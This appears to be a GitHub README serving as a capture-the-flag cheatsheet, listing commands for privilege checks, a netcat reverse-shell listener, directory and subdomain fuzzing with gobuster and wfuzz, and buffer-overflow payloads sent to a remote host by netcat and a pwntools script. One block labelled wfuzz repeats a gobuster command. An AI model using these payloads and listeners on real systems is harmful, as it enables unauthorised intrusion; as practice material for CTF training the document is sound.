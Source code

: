 # ctf-cheatsheet
This repo comprises useful code bytes for solving common ctf tasks.

## linux privileges
##### get current user
```bash
whoami
```
##### check, what can be executed with root
```bash
sudo -l
```
->
```
sudo: unable to resolve host domain: Temporary failure in name resolution
Matching Defaults entries for low on domain:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User low may run the following commands on domain:
    (root) NOPASSWD: /usr/bin/pip3
```

## linux network
##### change hosts file
```bash
sudo nano /etc/hosts
```

##### listen for reverse shell exploits
```bash
nc -lvp 1234
```

##### scan for folders

gobuster dir -u academy.htb -w /user/share/wordlists/dirbuster/directory-list-lowercase-2
```bash
gobuster dir -u academy.htb -w /user/share/wordlists/dirbuster/directory-list-lowercase-2
```

wfuzz
```bash
gobuster dir -u academy.htb -w /user/share/wordlists/dirbuster/directory-list-lowercase-2
```

##### scan for subdomains
1) add main domain to hosts
2) run wfuzz (here: hide results with code 301)
```bash
wfuzz -c -w /home/path/subdomains.txt -u "http://domain.com" -H "Host: FUZZ.domain.com" -t 50 --hc 301
```

## buffer overflow

##### execute locally, string as text input
###### bash
```bash
run <<< $(python -c 'print(188*"\x41" + "\xe2\x91\x04\x08" + "\x43" * 4 + "\xef\xbe\xad\xde"+ "\x0d\xd0\xde\xc0" )')
```

##### execute remotely, string as text input
###### bash
```bash
echo $(python -c 'print(188*"\x41" + "\xe2\x91\x04\x08")') | nc 123.123.123.123 32123
```
###### pwntools
```bash
from socket import socket
from pwn import *
ip = "sub.domain.com"
port = 1234
ret = 0x080491e2
no = 0x32432342
para_1 = 0xdedebebe
para_2 = 0xc0c00d0d
payload_len = 200 + 20
payload = "A" * payload_len
payload += p32(ret)
payload += p32(no)
payload += p32(para_1)
payload += p32(para_2)
r = remote(ip, port)
r.recvline()
r.sendline(payload)
r.interactive()
```


## python packages
##### build python package
```bash
python3 setup.py sdist bdist_wheel
```

##### upload with twine
```bash
python3 -m twine upload --repository-url http://pypi.domain.com:8080 /home/path/dist/* --verbose
```
-> enter username and password
